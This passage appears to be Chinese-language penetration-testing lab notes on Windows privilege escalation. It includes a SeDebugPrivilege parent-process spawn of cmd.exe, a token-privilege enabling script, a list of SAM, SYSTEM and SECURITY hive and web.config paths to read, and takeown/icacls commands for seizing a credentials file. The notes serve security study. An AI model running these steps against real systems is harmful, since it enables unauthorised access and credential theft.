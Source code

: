 ``` powershell
psgetsys.ps1; [MyProcess]::CreateProcessFromParent(612,"c:\windows\system32\cmd.exe ","")
```
## SeTakeOwnershipPrivilege
>[!warning] 小節重點
>要先enable，不然可能用不了，另外可能只能做sensitive file read，不能打RCE。
### Enable的方法
- [POC](https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1) 
```powershell
Import-Module .\Enable-Privilege.ps1
.\EnableAllTokenPrivs.ps1
```
## Read Sensitive File
### 我們有興趣的資料有哪些?
```cmd
c:\inetpub\wwwwroot\web.config
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
```
### 利用手法
- 檢查檔案權限
```powershell
Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}
```
- 檢查檔案擁有人
```powershell
 cmd /c dir /q 'C:\Department Shares\Private\IT'
```
- 檢查ACL
```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
- 奪取owner
```powershell
takeown /f 'C:\Department Shares\Private\IT\cred.txt'
```
-  修改ACL
```powershell
icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F
```
# 利用Windows Group提權
>[!warning] 小節重點
>解釋如何透過windows build-in group 做提權。
- 可能可以利用的群組
	- [Backup Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-backupoperators)
	- [Event Log Readers](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-eventlogreaders)
	- [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-dnsadmins)
	- [Hyper-V Administrators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-hypervadministrators)